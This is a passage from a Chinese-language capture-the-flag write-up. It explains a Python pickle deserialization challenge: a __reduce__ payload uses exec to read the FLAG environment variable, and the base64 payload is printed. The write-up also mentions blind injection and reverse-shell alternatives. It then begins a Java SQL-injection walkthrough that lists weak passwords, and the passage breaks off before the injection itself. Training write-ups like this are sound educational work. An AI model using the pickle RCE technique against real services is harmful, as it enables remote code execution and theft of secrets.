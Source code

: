 1. 调用第一个元素（可调用对象）并传入第二个元素（元组）的解包结果作为参数。
2. 使用可调用对象的返回值作为反序列化的结果。

通过这种方式，`__reduce__` 方法允许你完全控制对象的序列化和反序列化过程。

从 Dockerfile 中可以知道，题目环境中的 Python 版本是 3.12.4，且 flag 存储在环境变量 FLAG 中。

因此我们用 Python 3.12.4 生成序列化数据：

```Python
import base64
import pickle

class Test:
    def __reduce__(self):
        return (exec, ("import os; store.create_pet(os.getenv('FLAG'), 'flag');",))

if __name__ == "__main__":
    print(base64.b64encode(pickle.dumps(Test())).decode("utf-8"))
```

得到

```Plain
gASVUwAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIw3aW1wb3J0IG9zOyBzdG9yZS5jcmVhdGVfcGV0KG9zLmdldGVudignRkxBRycpLCAnZmxhZycpO5SFlFKULg==
```

这个被题目环境侧反序列化后就会执行

```Python
exec("import os; store.create_pet('flag', os.getenv('FLAG'));")
```

因此，将这个序列化数据传入 Import a Pet 后，再回到主页面，就能看到 Flag: 

![img](https://genuine-xdsec.feishu.cn/space/api/box/stream/download/asynccode/?code=ZWJlOTlmNmJiZDNlOWFkYWZkZDIyNTFmNmJiM2E5ZmJfMHJkOU9LMlhSeHZBOTJzZTJ3STRQUmVZTWpNWDRuUzZfVG9rZW46T0VHNWJtTWNxb0k4ekJ4YmllT2MxeWo4bjBjXzE3Mjg5MTA3MjM6MTcyODkxNDMyM19WNA)

示例 Flag（本题为动态 Flag）: 

```Plain
moectf{starrymeow's_flag_has_been_accepted_acacacac}
```

本题有非常多的解法，以上只是其中之一，例如在`/static/`中添加内容为flag的文件、时间盲注等，都是可以的，毕竟已经RCE了所以几乎什么都可以做到。因为容器不出网所以没法反弹shell，否则还可以有更多操作。

## smbms

这题是一道 java 的代码审计。因为我对 java 开发和 java 安全都是刚入门没几天，所以这道题出出来也只是套了个 java 的壳子，本质上还是一道简单的 sql 注入题目，只是增大了代码量。

首先我们打开环境，是一个登陆页面。可能有人会尝试 sql 注入进去，但是试了之后就可以放弃了。整个 java 项目都使用 `PrepareStatement` 预编译语句，所以一般情况下是不能注入的。所以登陆进去的考点就是爆破。拿到源代码查看里面的 sql 语句，也能看到提示 `weak_auth` ，表示这是一个弱密码。其中 admin 的密码是 `1234567` ，其他用户的密码是 `0000000` 。权限没有控制，随便选一个登陆就可以。

登陆进去之后，由于整个项目都是手搓的 jsp + servlet + jdbc, 所以没有现成的框架可以来利用，所以只能阅读代码。之前说过，我们使用的是预编译，所以我们不能哪里都能注入。但是我们还是可以找到一些端倪。sql 注入的核心就是字符串拼接，我们看到 `java/top/sxrhhh/dao/user/UserDaoImpl.java` 文件，看到 `getUserList` 方法，这个方法就是获取用户列表的，就是一个查表的函数。注意到这一行：
